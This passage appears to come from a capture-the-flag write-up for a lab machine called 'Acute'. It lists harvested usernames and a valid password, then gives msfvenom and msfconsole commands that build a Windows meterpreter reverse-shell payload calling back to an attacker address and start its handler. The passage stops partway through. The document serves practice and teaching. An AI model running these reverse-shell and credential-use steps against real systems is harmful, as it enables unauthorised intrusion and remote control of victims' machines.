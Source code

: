 ```
awallace
chall
edavies
imonks
jmorgan
lhopkins
```

![web_result](images/Acute6.png)

valid credentials are:

```
edavies:Password1!
Acute-PC01
```

![web_result](images/Acute7.png)

Now we need a reverse shell for that use msfvenom and msfcondole:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.52 LPORT=7777 -f exe > revshell.exe
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 7777
run
```

In another tab:
